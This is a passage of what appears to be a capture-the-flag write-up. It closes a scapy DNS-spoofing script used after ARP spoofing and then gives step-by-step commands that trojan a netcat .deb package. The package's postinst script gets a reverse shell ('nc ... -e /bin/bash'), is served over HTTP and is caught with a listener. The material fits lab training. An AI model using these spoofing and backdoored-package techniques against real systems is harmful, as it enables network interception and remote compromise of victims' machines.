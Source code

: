 ```python
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )
    
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=100)

if __name__ == "__main__":
    main()
```

* prepare a crafted .deb-package

```bash
  mkdir package    
  cd package/    
  cp ../debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb .    
  dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
  mkdir work/DEBIAN    
  ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
  tar -xf control.tar.xz ./control     
  tar -xf control.tar.xz ./postinst     
  mv control work/DEBIAN/           
  mv postinst work/DEBIAN/    
  echo "nc 10.6.0.2 4444 -e /bin/bash" >> work/DEBIAN/postinst   
  dpkg-deb --build work
  mv work.deb suriv_amd64.deb   
```

* prepare folder-structure for http-server and start the server in one tmux-tab

```bash
  mkdir pub/  
  mkdir pub/jfrost/   
  mkdir pub/jfrost/backdoor
  mv suriv_amd64.deb pub/jfrost/backdoor/
  python3 -m http.server 80
```

* open a listing netcat-instance in one tmux-tab

```bash
  nc -lp 4444 
```

* start dns_resp.py in one tmux-tab
* start arp_resp.py in one tmux-tab
* switch back to the tmux-tab where ncat is listing and `cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`
* this leads to the info, that `Tanta Kringle` recused herself from the vote.


## Terminal Chalenges
